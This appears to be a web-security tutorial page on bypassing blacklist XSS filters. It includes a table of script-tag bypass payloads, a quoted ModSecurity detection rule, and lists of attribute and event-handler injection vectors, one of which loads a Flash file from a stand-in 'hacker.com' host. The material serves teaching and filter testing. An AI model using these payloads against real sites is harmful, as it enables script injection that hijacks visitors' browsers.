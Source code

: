 Blacklisting Filters is the most filter mechanism being used. These type of filter's common goal is to detect specific patterns to prevent malicious behaviors.
## Bypassing Weak `<script>`  Filters.
The `<script>` tag is the primary method to execute JavaScript.

Some filters do not cover all possible cases, making them weak and prone to bypass techniques. The following is an example of few bypasses for weak `<script>` tag filter rules:

| Bypass Payload                               | Description                                                    |
| -------------------------------------------- | -------------------------------------------------------------- |
| `<ScRiPt>alert(1);</ScRiPt>`                 | Mixed of upper and lower-case characters.                      |
| `<ScRiPt>alert(1);`                          | Mixed of upper and lower-case characters, without closing tag. |
| `<script/random>alert(1);</script>`          | Random string after the tag name.                              |
| `<script`<br>`>alert(1);</script>`           | New line after the tag name.                                   |
| `<scr<script>ipt>alert(1);</scr<script>ipt>` | Nested tags.                                                   |
| `<scr\x00ipt>alert(1);</script>`             | NULL bytes.                                                    |
## ModSecurity Filter Rules
The following is an example of how ModSecurity filters the `<script>` tag:
```txt
SecRule ARGS
"(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]
*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]
*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?<\/script|<s
cript[^>]*>[\s\S]*?)"
...[SNIP]...
```
## JavaScript using HTML Attributes
Alternatively, JavaScript can also be executed through the use of HTML attributes, below are some few examples:
- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- `<form action="javascript:alert(1)"><button>send</button></form>`
- `<object data="javascript:alert(1)">`
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<embed code="//hacker.com/xss.swf" allowscriptaccess="always">`
> Note: The `swf` is a defunct Adobe Flash file format. 
## JavaScript using HTML Events
Events are the way that HTML DOM adds interactivity between the website and its visitors.

Almost all event handlers identifier start with `on` and are followed by the name of the event. One of the most used is `onerror`. For example:
```html
<img src=x onerror=alert(1)>
```

Below are some of HTML 4 tag examples:
- `<body onload=alert(1)>`
- `<input type=image src=x:x onerror=alert(1)>`
- `<form oninput=alert(1)><input></form>`
- `<textarea autofocus onfocus=alert(1)>`

While below are some HTML 5 tags examples:
- `<svg onload=alert(1)>`
- `<keygen autofocus onfocus=alert(1)>`
- `<video><source onerror="alert(1)">`
- `<marquee onstart=alert(1)>`